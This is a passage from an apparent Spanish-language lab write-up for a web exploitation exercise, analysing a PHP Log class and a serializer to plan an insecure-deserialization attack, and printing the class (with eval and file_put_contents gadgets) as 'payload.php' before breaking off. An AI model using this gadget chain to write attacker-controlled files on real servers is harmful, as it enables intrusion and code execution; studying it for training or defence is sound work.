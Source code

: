 - Fichero php.js

![php_js](https://github.com/Nyanyi/Awae-exercises/blob/master/pipe/imagenes/php_js.png)

En base a los comentarios se comprueba que básicamente este script se utiliza para serializar un objeto PHP

- Conclusión: Una vez se tienen estos dos códigos, la primera intención puede ser analizar todo el código de la función, pero si se mira toda la foto, lo que tenemos es:

  - Un código que define una clase LOG que nos permite instanciar un objeto de tipo log. Este objeto lo que hara sera crear un fichero en un path y grabar en el unos datos determinados
  - Una función que serializa un objeto php.
  - La idea es que se podría crear un objeto LOG, con datos controlados por el usuario, serializarlo y enviarlo al servidor que hará el unmarshalling y ejecutará el código.

- Fichero resultante: payload.php

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}

function serialize(mixed_value) 
{
  //  discuss at: http://phpjs.org/functions/serialize/
```